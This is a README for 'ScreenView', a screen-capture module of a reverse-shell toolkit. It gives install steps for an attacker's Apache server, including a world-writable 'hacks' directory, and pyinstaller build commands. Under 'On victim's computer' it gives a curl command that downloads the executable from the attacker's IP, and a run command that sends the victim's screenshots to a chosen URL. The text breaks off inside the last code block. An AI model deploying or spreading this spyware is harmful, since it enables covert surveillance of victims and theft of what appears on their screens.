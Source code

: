 # ScreenView
The<a href="https://github.com/MrSharkSpamBot/ShadowSharkReverseShell">Shadow Shark</a>ScreenView Module.

## Installation
### Debian
```
$ sudo apt-get install python3 python3-pip git apache2 php libapache2-mod-php
$ sudo service apache2 start
$ cd /var/www/html/
$ sudo mkdir hacks
$ sudo chmod 777 hacks
$ cd hacks/
$ git clone https://github.com/BababooeyHackers/ScreenView.git
$ cd ScreenView/
$ pip3 install -r requirements.txt
```
### Arch
```
$ sudo pacman -S python python-pip git apache php php-apache
$ sudo systemctl start httpd
$ cd /srv/http/
$ sudo mkdir hacks
$ sudo chmod 777 hacks
$ cd hacks/
$ git clone https://github.com/BababooeyHackers/ScreenView.git
$ cd ScreenView/
$ pip3 install -r requirements.txt
```

## Usage
### On victim's computer
```
$ curl http://IP/hacks/ScreenView/ScreenView.(exe, app, etc) --output ScreenView.(exe, app, etc)
$ ScreenView.(exe, app, etc) --time (# Minutes) --url (Url to send screenshot to)
```

## Compilation
This module must be compiled on a Linux computer, Windows computer, Wine environment, or MacOS computer.
```
# First install python3 on your Linux computer, Windows computer, Wine environment, or MacOS computer.
$ pip(3) install -r requirements.txt
$ pyinstaller --onefile --icon icon.ico ScreenView.py
